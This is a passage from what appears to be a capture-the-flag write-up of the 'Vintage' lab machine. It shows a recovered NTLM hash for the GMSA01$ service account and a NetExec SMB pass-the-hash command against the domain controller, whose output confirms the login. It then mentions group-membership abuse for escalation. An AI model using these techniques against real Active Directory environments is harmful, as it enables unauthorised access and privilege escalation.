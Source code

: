 so we got new creds GMSA01$ : b3a15bbdfb1c53238d4b50ea2c4d1178

```bash
➜  Vintage nxc smb DC01.vintage.htb -u 'GMSA01$' -H b3a15bbdfb1c53238d4b50ea2c4d1178 -k 
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\GMSA01$:b3a15bbdfb1c53238d4b50ea2c4d1178 
```

and yeah its work now lets check GMSA01$ can do?
![alt text](../assets/images/vintage9.png)

noice we can add member of this group. and
![alt text](../assets/images/vintage10.png)
